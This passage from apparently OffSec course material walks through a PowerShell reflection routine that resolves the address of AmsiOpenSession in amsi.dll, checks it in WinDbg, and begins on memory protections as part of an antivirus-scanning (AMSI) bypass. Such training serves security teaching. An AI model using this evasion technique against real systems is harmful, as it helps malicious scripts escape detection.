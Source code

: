 ```
PS C:\Users\Offsec> function LookupFunc {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$funcAddr
140736475571392
```

> Listing 43 - Resolving the address of AmsiOpenSession

To verify this address, we'll open WinDbg, attach to the PowerShell_ISE process and quickly translate the address to hexadecimal with the ? command, prepending the address with 0n:

```
0:001> ? 0n140736475571392
Evaluate expression: 140736475571392 = 00007fff`c3a224c0
```

> Listing 44 - Converting the address to hexadecimal

With the value converted, we can then unassemble the instructions at that address to check if it is correct:

```
0:001> u 7fff`c3a224c0
amsi!AmsiOpenSession:
00007fff`c3a224c0 4885d2          test    rdx,rdx
00007fff`c3a224c3 7446            je      amsi!AmsiOpenSession+0x4b (00007fff`c3a2250b)
00007fff`c3a224c5 4885c9          test    rcx,rcx
00007fff`c3a224c8 7441            je      amsi!AmsiOpenSession+0x4b (00007fff`c3a2250b)
00007fff`c3a224ca 8139414d5349    cmp     dword ptr [rcx],49534D41h
00007fff`c3a224d0 7539            jne     amsi!AmsiOpenSession+0x4b (00007fff`c3a2250b)
00007fff`c3a224d2 4883790800      cmp     qword ptr [rcx+8],0
00007fff`c3a224d7 7432            je      amsi!AmsiOpenSession+0x4b (00007fff`c3a2250b)
```

> Listing 45 - Verifying AmsiOpenSession address in WinDbg

Clearly, we have located the address of _AmsiOpenSession_.

This solves our first challenge. Now we must consider memory protections.

In Windows, all memory is divided into 0x1000-byte _pages_.[3](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5182-3) A memory protection setting is applied to each page, describing the permissions of data on that page.
